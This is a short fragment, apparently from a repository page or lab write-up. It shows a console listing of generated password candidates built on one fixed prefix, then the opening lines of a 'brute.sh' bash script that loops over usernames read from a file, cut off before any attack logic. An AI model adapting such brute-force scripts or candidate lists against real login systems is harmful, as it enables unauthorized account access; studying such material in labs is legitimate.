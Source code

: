 ```console
hehegou<j][D
hehegou<j][E
hehegou<j][F
hehegou<j][G
hehegou<j][H
hehegou<j][I
hehegou<j][J
hehegou<j][K
hehegou<j][L
hehegou<j][M
hehegou<j][N
hehegou<j][O
hehegou<j][P
hehegou<j][Q
hehegou<j][R
hehegou<j][S
hehegou<j][T
hehegou<j][U
hehegou<j][V
hehegou<j][W
hehegou<j][X
hehegou<j][Y
hehegou<j][Z
hehegou<j][!
hehegou<j]["
hehegou<j][#
hehegou<j][$
hehegou<j][%
hehegou<j][&
hehegou<j]['
hehegou<j][(
hehegou<j][)
hehegou<j][*
hehegou<j][+
hehegou<j][,
hehegou<j][-
hehegou<j][.
hehegou<j][/
hehegou<j][:
hehegou<j][;
hehegou<j][<
hehegou<j][=
hehegou<j][>
hehegou<j][?
hehegou<j][@
hehegou<j][[
hehegou<j][\
hehegou<j][]
hehegou<j][^
hehegou<j][_
hehegou<j][`
hehegou<j][{
hehegou<j][|
hehegou<j][}
hehegou<j][~
```
### Content of brute.sh
```shell
#!/bin/bash

for user in `cat user`
do
```